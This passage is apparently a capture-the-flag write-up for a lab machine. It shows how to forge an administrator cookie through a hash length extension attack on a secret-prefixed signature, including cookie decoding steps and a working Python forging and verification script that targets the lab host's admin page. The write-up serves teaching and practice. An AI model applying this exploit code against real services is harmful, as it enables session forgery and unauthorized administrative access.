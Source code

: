 Seems like messages are signed using the `sign` function. 

### Exploiting the length extension attack to forge an admin-cookie

The secret seems to be between 8 and 15 bytes long (`SECRET = os.urandom(randrange(8, 15))`). As we are able to use `Hash(message)` and can change the length of the message, we can try to use a [Length extension attack](https://en.wikipedia.org/wiki/Length_extension_attack) to manipulate the cookie. An explanation and a working tool can be found [here](https://github.com/iagox86/hash_extender). There is also a [python-module](https://github.com/bwall/HashPump#python-bindings) available.

Let us take our current cookie and decode it.

```bash
auth=dXNlcm5hbWU9Z3Vlc3Q7c2VjcmV0PTg0OTgzYzYwZjdkYWFkYzFjYjg2OTg2MjFmODAyYzBkOWY5YTNjM2MyOTVjODEwNzQ4ZmIwNDgxMTVjMTg2ZWM7.JWUl98iMJzAbBHD6sFyX9laiKoe+9TyuNm4mb5l3yRo=
```

Our current cookie consists of the base64-encoded session and the base64-encoded signature. Let us decode the session data.

```bash
root@darkness:~# echo -n dXNlcm5hbWU9Z3Vlc3Q7c2VjcmV0PTg0OTgzYzYwZjdkYWFkYzFjYjg2OTg2MjFmODAyYzBkOWY5YTNjM2MyOTVjODEwNzQ4ZmIwNDgxMTVjMTg2ZWM7 | base64 -d
username=guest;secret=84983c60f7daadc1cb8698621f802c0d9f9a3c3c295c810748fb048115c186ec;
```

As though, the session consists of the current username and it's secret (password). We can now try to append our data (the admin-session):

```bash
;username=admin;secret=f1fc12010c094016def791e1435ddfdcaeccf8250e36630c0bc93285c2971105;
```

The data to append in plain format. We can implement the attack using the python-module. This results into following code:

```python
# Forge the admin cookie
def forge_cookie(sample_cookie,hash):
    clear() # Clear screen
    print("[!] Forging admin cookie...")
    b64_data, b64_sig = sample_cookie.split('.')
    
    data = b64decode(b64_data).decode() # Cookie data
    sig = b64decode(b64_sig).hex() # Signature
    append = f';username=admin;secret={hash};' # Data to append
    
    for key_length in range(8,15): # Secret is between 8 and 15 bytes
		# Use hashpump to append our data to the cookie, without changing the signature
        new_sig, msg = hashpump(sig, data, append, key_length)
        
        # Generate cookie
        cookie_data = f"{b64encode(msg).decode()}.{b64encode(unhexlify(new_sig)).decode()}"
        cookie = {'auth' : cookie_data}

		# Check if cookie is valid for admin endpoint
        if verify_cookie(cookie):
            return cookie

        [...]
        
# Verify cookie after forging
def verify_cookie(cookies):
    r = requests.get('http://10.10.10.195/admin',cookies=cookies)#,proxies=proxies)
    if r.status_code != 403 and r.status_code != 500:
        print(f"[+] Got valid cookie: {cookies}")
        return True
    return False
```